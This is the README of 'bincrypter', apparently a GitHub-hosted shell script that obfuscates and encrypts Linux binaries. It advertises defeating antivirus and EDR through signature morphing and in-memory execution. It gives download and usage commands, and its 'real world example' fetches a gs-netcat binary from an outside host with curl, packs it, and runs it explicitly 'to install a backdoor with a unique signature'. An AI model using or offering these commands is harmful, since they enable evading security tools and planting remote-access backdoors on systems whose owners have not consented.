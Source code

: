 
## A shell script for Linux that obfuscates + encrypts + packs any binary.

- Obfuscates any ELF binary or script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary
- Resulting binary is heavily obfuscated (`string` shows garbage)
- Living off the Land: Only needs /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Example:
```shell
cp /usr/bin/id id
./bincrypter.sh id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter.sh >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  



